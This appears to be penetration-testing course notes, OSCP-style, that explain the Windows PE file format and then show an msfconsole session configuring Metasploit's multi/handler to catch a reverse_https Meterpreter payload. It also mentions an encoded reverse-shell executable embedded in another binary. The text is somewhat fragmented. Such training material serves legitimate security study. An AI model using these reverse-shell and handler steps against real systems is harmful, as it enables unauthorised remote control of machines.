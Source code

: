 [*] Writing 311296 bytes to shell_reverse_msf_encoded_embedded.exe...



 The Portable Executable format is a file format for executables, object code, DLLs and others used in 32-bit and 64-bit versions of Windows operating systems. 
 
 The PE format is a data structure that encapsulates the information necessary for the Windows OS loader to manage the wrapped executable code.
 
 
 The PE file format is a format designed by Microsoft alongside Windows NT 3.1. 
 
 It was intended to be the standardised format for executable and library files in that system and is still in use today.
 
 
 A PE file is a file that begins with a header containing informations about the executable or the library (for example, a signature indicating that it's an executable, sizes, dates...), followed by the actual content (the executable or the library) that can be read by the system.
 
 
 The different extensions used to recognize that file format are : .cpl, .dll, .drv, .efi, .exe, .ocx, .scr and .sys
22.3.5 Metasploit Exploit Multi Handler


22.3.5 Metasploit Exploit Multi Handler

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/13.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/14.jpg)

• such as those generated by the windows/shell_reverse_tcp payload.
 
• However, this is inelegant and may not work for more advanced Metasploit payloads.
 
• Instead, we should use the framework multi/handler module, which works for all single and multi-stage payloads.

• When using the multi/handler module, we must specify the incoming payload type.

•In the example below, we will instruct the multi/handler to expect and accept an incoming windows/meterpreter/reverse_https Meterpreter payload that will start a first stage listener on our desired port, TCP 443.

• Once the first stage payload is accepted by the multi/handler, the second stage of the payload will be fed back to the target machine.

• After setting the parameters, we will run exploit to instruct the multi/handler to listen for a connection.


msf5 > use multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https

msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_https):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 EXITFUNC process yes Exit technique (Accepted: '', seh, thread, pro
 LHOST yes The local listener hostname
 LPORT 8443 yes The local listener port
 LURI no The HTTP Path
Exploit target:
 Id Name
 -- ----
 0 Wildcard Target